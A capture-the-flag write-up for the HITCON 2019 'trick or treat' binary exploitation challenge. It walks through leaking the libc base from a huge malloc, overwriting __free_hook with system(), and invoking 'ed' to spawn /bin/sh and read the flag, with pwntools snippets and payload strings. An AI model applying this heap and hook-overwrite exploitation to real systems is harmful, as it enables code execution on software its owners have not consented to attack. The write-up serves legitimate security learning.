 # CTFhitcon2019
The disassembly of the file is as follows:

![Disassembly of the file](ida.png)

When running checksec we get these results:
```
RELRO           STACK CANARY      NX            PIE             RPATH      RUNPATH      Symbols         FORTIFY Fortified
Full RELRO      No canary found   NX enabled    PIE enabled     No RPATH   No RUNPATH   No Symbols      No      0      
```

The program starts by asking for an input size to send to var7 = malloc(size). From now on I will refer to var7 as *mValue*
After sending the input size it prints out a "Magic" pointer value which points towards where the heap was allocated.

For example, mallocing 100 gives us a pointer to 0x55a29a156260
```
Size:100
Magic:0x55590e00f260
```
/proc/PID/maps
```
55590e00f000-55590e030000 rw-p 00000000 00:00 0                          [heap]
7f3893334000-7f389351b000 r-xp 00000000 08:05 6950739                    /CTFhitcon2019/libc.so.6
```
In order for malloc to allocate a huge page it needs to be given a size of 0x1000000 (Decimal 16777216)
Doing this changes where the heap chunk is allocated and is placed near libc. When running the program twice allocating a huge page, we observe something peculiar with the proc/PID/maps output
Run 1:
```
Size:16777216
Magic:0x7f0aadd25010
```
/proc/PID/maps
```
5567221bc000-5567221dd000 rw-p 00000000 00:00 0                          [heap]
7f0aadd25000-7f0aaed26000 rw-p 00000000 00:00 0 
7f0aaed26000-7f0aaef0d000 r-xp 00000000 08:05 6950739                    /CTFhitcon2019/libc.so.6
```
libc start is at 0x7f0aaed26000. Magic is at 0x7f0aadd25010. Difference is 0x1000FF0
Run 2:
```
Size:16777216
Magic:0x7f2aeafd4010
```
/proc/PID/maps
```
55f249f64000-55f249f85000 rw-p 00000000 00:00 0                          [heap]
7f2aeafd4000-7f2aebfd5000 rw-p 00000000 00:00 0 
7f2aebfd5000-7f2aec1bc000 r-xp 00000000 08:05 6950739                    /CTFhitcon2019/libc.so.6
```
libc start is 0x7f2aebfd5000. Magic is at 0x7f2aeafd4010. Difference is 0x1000FF0

This means that every time we allocated a huge page with malloc magic will be a fixed distance from libc of 0x1000FF0.
Now that we know where libc starts we can leverage that to get the addresses of __free_hook__ and __system__ by using pwntools like so:
```
libc = ELF('libc.so.6')
free_hook = libc.symbols["__free_hook"]
system = libc.symbols["system"]
```
After getting the Magic value we are able to assign all of the variables we will be using
```
libc_offset = 0x1000FF0
free_hook = 0x3ed8e8
system = 0x4f440
libcBase = magic+libc_offset
```

After setting up our environment by alloating a hugepage we are presented with the prompt `Offset & Value:`
From the disassembly we can see that it is expecting input in the format "%lx %lx" which means it is looking for long hex input. This means we don't need to format our input in a special way and can send addresses "as is".
What the program does with Offset and Value is it passes value to the offset of our malloced value. For example `mValue[offset] = value`
The program asks for Offset & Value twice.
The first Offset and Value we send is `(libc_offset+free_hook)/8` for the offset and `(libcBase+system)` for the value.
For the Offset, we add together __libc_offset__ and __free_hook__ and then divide the sum by 8. We do this because we are already starting at __Magic__ so we need to add __libc_offset__ to get to the __libcBase__. Then we add the offset of __free_hook__ so that we are pinpointing to the address of __free_hook__. We divide by 8 because *mValue* is a QUADWORD. This means that every *mValue* is equivalent to 8 bytes (64 bits). The Value is __libcBase__ plus the offset of __system__. This points towards the __system__ call. The payload is as follows `payload = "%x %x" % ((libc_offset+free_hook)/8,(libcBase+system))`
After sending this payload, we have succesfully overwritten the __free_hook__ call with the __system__ call.
For our second call we need to call __freee__ in order to invoke our newly placed __system__ call. We can achieve this by sending 1024 of an arbitrary character as the offset to invoke __free__. When __free__ is invoked the argument passed to it is the value that was supposed to be set at the offset of *mValue*. For example
```
mValue[1024] = value
                 v
          free(value)
```
With our altered code it now looks like this
```
mValue[1024] = value
                 v
        system(value)
```
So, we can send a value to system as an argument. However, this value can only consist of valid hex values such as 0123456789abcdef. By running the script hexcommands.py we get the output:
```
ed
dd
df
c99
cc
c89
bc
dc
```
The command of interest is the __ed__ command. This launches the [ed](https://linux.die.net/man/1/ed) text editor.
So, for our second Offset & Value input we use `payload = ('1'*1024+' '+'ed')`
Now that we are in the ed editor all we need to do is send the command `!'/bin/sh'`.
After that, we can CAT out the flag by navigating to /home/trick_or_treat/ and doing `CAT flag`
